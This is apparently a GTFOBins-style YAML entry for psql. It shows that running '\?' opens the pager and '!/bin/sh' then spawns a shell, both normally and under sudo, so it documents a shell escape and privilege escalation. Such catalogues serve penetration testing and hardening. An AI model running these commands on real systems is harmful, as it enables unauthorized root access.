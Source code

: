 ```yaml
---
description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        psql
        \?
        !/bin/sh
  sudo:
    - code: |
        psql
        \?
        !/bin/sh
---
```

